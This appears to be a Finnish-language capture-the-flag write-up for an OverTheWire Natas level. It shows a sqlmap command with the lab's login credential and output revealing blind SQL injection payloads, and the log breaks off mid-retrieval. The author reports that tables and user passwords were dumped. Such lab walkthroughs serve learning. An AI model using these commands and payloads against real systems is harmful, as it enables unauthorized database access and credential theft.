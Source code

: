 
**Seuraavaksi**:
Tässä suoritin jotakin muuta, mutta meni kauan niin keskeytin, mutta ainakin yksi niistä sqlmap toiminnasta ainakin ja muutamia huomoittavia on:

Tässä vaiheessa olet onnistuneesti:
✅ Hyökännyt SQL-injektiolla username-kenttään
✅ Löytänyt tietokannan nimen (natas14)
✅ Listannut taulut
✅ Löytänyt taulun users ja sen sarakkeet (username, password)
✅ Dumpannut kaksi käyttäjää ja niiden salasanat (bob ja charlie)

Muutamia huomioon mm.
- username injektio    OR 101 -tyyline blind SQL injektio onnistui
- MySQL versio löytyi >= 5.0.12 mahdollistaa mm. `SLEEP()`
- users - taulu löytyi - joka on tietokannassa vain yksi taulu users
- dumpatut tiedot - pari käyttäjätunnusta ja niiden salasanat
- kesti kauan - tämä kesti tosiaan aika kauan joka on normi `time-based blind` - hyökkäys


```
┌──(kali㉿kali)-[~]
└─$ sqlmap -u "http://natas14.natas.labs.overthewire.org/index.php" \
  --auth-type Basic \
  --auth-cred "natas14:z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ" \
  --data "username=natas15&password=test" \
  --batch \
  --level=5 --risk=3 --dump
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.8.5#stable}
|_ -| . [(]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 12:32:20 /2025-05-17/

[12:32:21] [INFO] resuming back-end DBMS 'mysql' 
[12:32:21] [INFO] testing connection to the target URL
[12:32:21] [WARNING] potential permission problems detected ('Access denied')
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)
    Payload: username=admin" OR NOT 9188=9188#&password=admin

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin" AND (SELECT 2142 FROM (SELECT(SLEEP(5)))vnvd)-- Cgqh&password=admin
---
[12:32:21] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.58
back-end DBMS: MySQL >= 5.0.12
[12:32:21] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[12:32:21] [INFO] fetching current database
[12:32:21] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[12:32:21] [INFO] retrieved: 
```